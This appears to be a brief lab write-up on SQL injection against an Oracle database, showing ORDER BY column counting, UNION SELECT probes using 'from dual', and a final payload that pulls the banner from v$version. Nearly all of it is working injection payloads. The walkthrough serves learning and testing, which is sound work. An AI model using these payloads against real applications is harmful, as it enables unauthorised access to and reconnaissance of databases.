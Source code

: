 # Database type and version on Oracle

the version of database on oracle can be retreive using query

```
select * from v$version
```
this wil return about the version of oracle

end goal : database version and type

let's analyze total no.of of columns we have her

```
' order by 1--
' order by 2--
```
if column contains any string 

```
' union select  'a',NULL-- //returns error
```
we are using oracle database and after searching found that it's select statement require <b>FROM</b> caluse and  

modified query

```
' union  select  'a',NULL from dual--
' union  select  'a','a' from dual--
```
this was running perfectly

payload

```
' union select banner, NULL from v$version--
```

